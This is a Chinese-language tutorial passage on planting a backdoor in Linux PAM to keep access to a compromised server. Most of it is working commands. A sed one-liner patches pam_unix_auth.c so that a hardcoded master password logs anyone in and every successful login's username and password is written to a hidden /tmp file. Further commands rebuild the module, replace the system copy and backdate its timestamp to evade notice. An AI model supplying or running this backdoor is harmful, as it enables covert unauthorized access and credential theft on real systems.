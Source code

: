 #### 2.Linux Pam后门

 **PAM**
是一种认证模块，PAM可以作为Linux登录验证和各类基础服务的认证，简单来说就是一种用于Linux系统上的用户身份验证的机制。进行认证时首先确定是什么服务，然后加载相应的PAM的配置文件(位于
**/etc/pam.d** )，最后调用认证文件(位于 **/lib/security** )进行安全认证

 **简易利用** 的PAM后门也是通过修改 **PAM** 源码中认证的逻辑来达到权限维持

源码： `http://www.linux-pam.org/library/`

查询版本： `rpm-qa|grep pam`

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180502.png)

    
    
    tar -xzvf Linux-PAM-1.1.1.tar.gz  
    cd Linux-PAM-1.1.1

 **pam unixauth.c** 修改认证逻辑，改成使用特定密码的后门，当然也可以作为一个记录敏感密码的功能，将记录的密码写入文件记录。

    
    
    sed -i -e 's/retval = _unix_verify_password(pamh, name, p, ctrl);/retval = _unix_verify_password(pamh, name, p, ctrl);\n\tif (strcmp(p,"'snsn123123'")==0 ){retval = PAM_SUCCESS;}if(retval == PAM_SUCCESS){\n\tFILE * fp;\n\tfp = fopen("/tmp/.sshd", "a");\n\tfprintf(fp, "%s : %s\\n", name, p);\n\tfclose(fp);\n\t}/g' modules/pam_unix/pam_unix_auth.c

  

![](https://gitee.com/fuli009/images/raw/master/public/20230714180503.png)

    
    
    ./configure && make

![](https://gitee.com/fuli009/images/raw/master/public/20230714180504.png)

    
    
    cp -rf /usr/lib64/security/pam_unix.so /usr/lib64/security/pam_unix.so.bak  
    cp -rf pam_unix.so /usr/lib64/security/pam_unix.so

![](https://gitee.com/fuli009/images/raw/master/public/20230714180505.png)

    
    
    oldtime=`stat -c '%z' /lib64/security/pam_ftp.so`  
    touch -d "$oldtime" /usr/lib64/security/pam_unix.so

![](https://gitee.com/fuli009/images/raw/master/public/20230714180506.png)  

当管理员登录之后就会有新的密码写入

![]()

通过万能密码也可以成功登录服务器

![](https://gitee.com/fuli009/images/raw/master/public/20230714180507.png)
